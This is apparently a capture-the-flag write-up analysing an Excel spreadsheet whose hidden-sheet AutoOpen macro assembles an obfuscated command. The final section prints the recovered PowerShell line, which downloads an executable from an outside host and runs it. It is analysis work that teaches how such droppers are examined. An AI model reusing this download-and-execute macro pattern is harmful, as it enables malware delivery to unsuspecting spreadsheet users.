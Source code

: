 # Fruit Deals - Reverse Engineering Writeup

{INSERT SCREENSHOT}

## Description:

I found a excel sheet with some great deals thanks to some random guy on the internet! Who doesn't trust random people off the internet, especially from email

The flag is the file name that was attempted to be downloaded, wrapped in utflag{} Note: the file imitates malicious behavior. its not malicious, but it will be flagged by AV. you probably shouldn't just run it though.

By Samintell (@samintell on discord)

## Solution:
### Step 1:

On the initial load of the spreadsheet, It warned me saying that it was unable to find deals and the popup to enable macros

{INSERT IMAGE 1}

After opening up VB Editor, the first thing I noticed was the Sheets listed on the editor didn't match what was being shown on the main UI 

{INSERT IMAGE 1.1}
{INSERT IMAGE 1.2}

After Enabling the hidden sheets we are greeted with this awful mess.

{INSERT IMAGE 1.3}

In summary, the script appears to be dynamically constructing a command based on values in the Excel spreadsheet, executing the command, and then opening a specified YouTube link in the web browser which is most likely designed to move the end users attention away from what the script is actually doing. 

Upon examining the code within the AutoOpen Macro, it initializes several variables and scans different cells within Sheet 2 for particular values. 
Depending on these values, specific strings are appended with corresponding values, ultimately forming a command ('f') by manipulating strings.

{INSERT IMAGE 1.4}

### Step 2:

{INSERT IMAGE 2}

### Step 3:

To find out what the script is actually doing in the background, I had a brief look at what is being appended and I can see that some strings that stand out.

{INSERT IMAGE 3.1}
{INSERT IMAGE 3.2}

### Step 4:

To read the output, just need to add a breakpoint on the line 
```
f = t53df028c67b2f07f1069866e345c8b85 + qe32cd94f940ea527cf84654613d4fb5d + e5b138e644d624905ca8d47c3b8a2cf41 + tfd753b886f3bd1f6da1a84488dee93f9 + z92ea38976d53e8b557cd5bbc2cd3e0f8 + xc6fd40b407cb3aac0d068f54af14362e
```
{INSERT IMAGE 4}
{INSERT IMAGE 4.1}

We can see the command that is to be executed and the flag is appended to the $CNTA variable.

### Executed Command: 
```powershell 
f = "poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';
$CNTA = 'banANA-Hakrz09182afd4';
$jri=$env:public+''+$CNTA+'.exe';
try{
  $oaK.DownloadFile($OrA, $jri);
  Invoke-Item $jri;
  break;
} catch {} ""
```

## Flag: utflag{banANA-Hakrz09182afd4.exe}